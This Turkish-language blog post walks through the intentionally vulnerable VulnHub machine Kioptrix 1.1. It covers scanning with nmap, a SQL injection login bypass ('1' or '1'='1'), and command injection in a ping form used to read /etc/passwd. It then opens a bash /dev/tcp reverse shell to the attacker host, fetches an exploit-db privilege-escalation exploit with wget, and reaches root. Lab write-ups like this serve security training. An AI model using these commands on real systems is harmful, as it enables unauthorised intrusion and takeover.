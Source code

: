 ```yaml
---  
layout: post
title: Kioptrix1.1#2 Walkthrough
Date: '2017-4-21 00:10 +0300'
categories: cozumler
---  
```


Arkadaşlar merhaba;

Bu yazımda [VulnHub](https://www.vulnhub.com) üzerinde yayınlanmış olan Kioptrix1.1#2 sanal makinasının çözümünü anlatmaya çalışacağım.

__Linkler__
	
[Resmi sitesi](http://www.kioptrix.com)  
[Vulnhub Bağlantısı](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)  

__Çözüm__

İlk olarak benim kullandığım VMware’de Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.  
```
$ ifconfig
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/1.png)

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum.  
```
$ netdiscover -i eth0 -r 192.168.1.0/24
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/2.png)

Ve gördüğümüz gibi IP adresim geldi😊 IP adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.  
```	
$ nmap -sS -sV 192.168.1.22
```  
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/3.png)

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan HTTP servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum.  

![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/4.png)

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek  
```
SELECT * FROM users WHERE username='' AND password=''
```
Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,  
```	
1’ or ‘1’=’1
```
Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:  

```
SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'
```
Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.  
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/5.png)

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.  
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/6.png)

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.  
```
$ whoami
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/7.png)

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.  

![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/8.png)
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/9.png)

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.  
Ben de Reverse Shell almayı deniyorum.   
İlk önce netcat ile 443 portumu dinlemeye açıyorum.  
```
$ nc -nvlp 443
``` 
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/10.png)

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.  
```
$ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin IP adresi ve port da dinlemeye açtığım port.)
```
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊  

![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/11.png)

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.  
```
$  cat /etc/*-release
```
```
$  cat /proc/version
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/12.png)

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.  
```
$ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
```
```
$ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
```
```
$ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/13.png)

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )  
```
$ gcc 9542.c 
```
```
$ ./a.out
```
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.  
```
$ whoami
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/14.png)

---  
[Talha Eryaşar](https://twitter.com/talha_eryasar)
